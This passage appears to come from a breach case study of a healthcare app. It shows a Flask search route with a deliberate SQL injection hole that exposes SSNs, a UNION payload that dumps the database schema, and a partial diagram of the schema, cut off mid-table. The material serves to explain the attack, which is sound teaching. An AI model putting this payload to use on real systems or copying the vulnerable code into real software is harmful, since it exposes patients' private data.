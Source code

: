 ### Phase 2: Initial Compromise (Day 15)

**Vulnerability Exploited**: SQL Injection in search functionality

**Vulnerable Code**:
```python
# search.py - Vulnerable implementation
@app.route('/search')
def search_patients():
    query = request.args.get('query', '')
    
    # VULNERABILITY: String concatenation, no sanitization
    sql = f"""
        SELECT patient_id, first_name, last_name, date_of_birth, ssn
        FROM patients 
        WHERE first_name LIKE '%{query}%' 
           OR last_name LIKE '%{query}%'
    """
    
    cursor = db.cursor()
    cursor.execute(sql)  # No parameterization!
    results = cursor.fetchall()
    
    return jsonify(results)
```

**Exploit Payload**:
```sql
' UNION SELECT 
    table_name, column_name, data_type, NULL, NULL 
FROM information_schema.columns 
WHERE table_schema = 'public'--
```

**What This Revealed**:
- Complete database schema
- Table names and relationships
- Column names (including sensitive fields)
- Data types

### Phase 3: Data Enumeration (Days 15-20)

**Attacker Actions**:
- Mapped entire database structure
- Identified high-value tables
- Located admin credentials table
- Found backup file locations

**Database Structure Discovered**:
```mermaid
erDiagram
    PATIENTS ||--o{ MEDICAL_RECORDS : has
    PATIENTS ||--o{ PRESCRIPTIONS : receives
    PATIENTS ||--o{ LAB_RESULTS : has
    PATIENTS ||--o{ INSURANCE : has
    USERS ||--o{ AUDIT_LOGS : generates
    USERS {
        int user_id PK
        string email
        string password_hash
        string role
        boolean is_admin
    }
    PATIENTS {
        int patient_id PK
        string ssn
```